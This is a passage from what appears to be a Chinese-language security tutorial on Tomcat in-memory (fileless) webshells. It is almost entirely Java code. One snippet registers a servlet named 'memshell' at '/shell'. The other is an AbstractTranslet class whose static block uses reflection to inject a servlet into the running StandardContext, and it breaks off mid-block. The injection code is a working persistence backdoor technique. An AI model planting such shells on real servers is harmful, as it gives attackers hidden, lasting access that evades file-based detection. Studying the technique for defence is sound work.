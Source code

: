 ```java
    newWrapper.setName("memshell");
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());

    // 添加封装后的恶意Wrapper到StandardContext的children当中
    standardCtx.addChild(newWrapper);
    // 添加ServletMapping将访问的URL和Servlet进行绑定
    standardCtx.addServletMappingDecoded("/shell","memshell");
%>
```
![](https://img-blog.csdnimg.cn/9817cab2297b429695c33380fca2341e.png)

#### 无文件内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import org.apache.catalina.Container;
import org.apache.catalina.Wrapper;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.lang.reflect.Method;

public class TomcatServlet extends AbstractTranslet implements Servlet{
    static{
        try{
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            TomcatServlet Servlet = new TomcatServlet();

            Method createWrapper = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredMethod("createWrapper");
            Wrapper greetWrapper = (Wrapper) createWrapper.invoke(standardContext);

            Method gname = Container.class.getDeclaredMethod("setName", String.class);
            gname.invoke(greetWrapper,"shell");

            Method gload = Wrapper.class.getDeclaredMethod("setLoadOnStartup", int.class);
            gload.invoke(greetWrapper,1);

            Method gservlet = Wrapper.class.getDeclaredMethod("setServlet", Servlet.class);
            gservlet.invoke(greetWrapper,Servlet);

            Method gclass = Wrapper.class.getDeclaredMethod("setServletClass", String.class);
            gclass.invoke(greetWrapper,Servlet.getClass().getName());

            Method gchild = StandardContext.class.getDeclaredMethod("addChild",Container.class);
            gchild.invoke(standardContext,greetWrapper);

            Method gmap = StandardContext.class.getDeclaredMethod("addServletMappingDecoded",String.class,String.class,boolean.class);
            gmap.invoke(standardContext,"/shell", "shell",false);
        }catch (Exception hi){
```